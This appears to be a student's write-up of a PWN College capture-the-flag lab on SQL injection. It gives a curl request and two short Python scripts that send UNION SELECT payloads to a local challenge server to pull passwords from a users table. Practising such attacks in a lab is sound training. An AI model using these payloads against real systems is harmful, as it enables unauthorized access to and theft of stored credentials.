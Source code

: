 # LAB-3 SQL Injection and SUID Exploitation from PWN College

## [Press here to return to HOME](index.md)

## SQL Injection

### Question 3 
```bash
curl "http://challenge.localhost:80/?user=1"
```

### Question 5 
```python 
import requests 

payload = { "query": '" UNION SELECT password FROM users --' } 

response = requests.post("http://challenge.localhost/", params=payload) 
print(response.text)
```

### Question 7
```python 
import requests

payload = {"username": "flag", "password": '" UNION SELECT password, * FROM users --'} 

response = requests.post("http://challenge.localhost/", payload) 
print(response.text)    
```